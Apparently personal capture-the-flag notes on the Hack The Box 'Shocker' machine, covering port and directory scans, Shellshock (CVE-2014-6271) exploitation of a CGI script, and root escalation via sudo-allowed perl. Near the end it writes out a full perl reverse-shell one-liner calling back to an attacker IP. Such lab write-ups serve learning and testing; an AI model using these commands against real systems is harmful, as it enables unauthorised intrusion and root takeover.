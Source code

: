 10.10.10.56

nmap
└─$ nmap 10.10.10.56                
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-06 12:48 EST
Nmap scan report for 10.10.10.56
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1


![](20230206125212.png)  

using dirbuster

can use exif on the image

![](20230206125852.png)  

https://0xdf.gitlab.io/2021/05/25/htb-shocker.html


```
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ feroxbuster -u http://10.10.10.56/cgi-bin/ -x sh,php,html

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.56/cgi-bin/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [sh, php, html]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET       11l       32w      294c http://10.10.10.56/cgi-bin/
200      GET        7l       17w        0c http://10.10.10.56/cgi-bin/user.sh
403      GET       11l       32w      299c http://10.10.10.56/cgi-bin/.html
[####################] - 13m   120000/120000  0s      found:3       errors:45     
[####################] - 13m   120000/120000  151/s   http://10.10.10.56/cgi-bin/ 
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ 
```

found users.sh

user.sh has output from uptime

there is command execution through useragent

`nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56`

using https://github.com/zalalov/CVE-2014-6271

we got a shell

![](20230208132826.png) 

privilege scalation:

```
cd ..                                                                                                               
shelly@Shocker:/$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

```

`sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.19";$p=4422;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

Got root

![](20230208134420.png)  





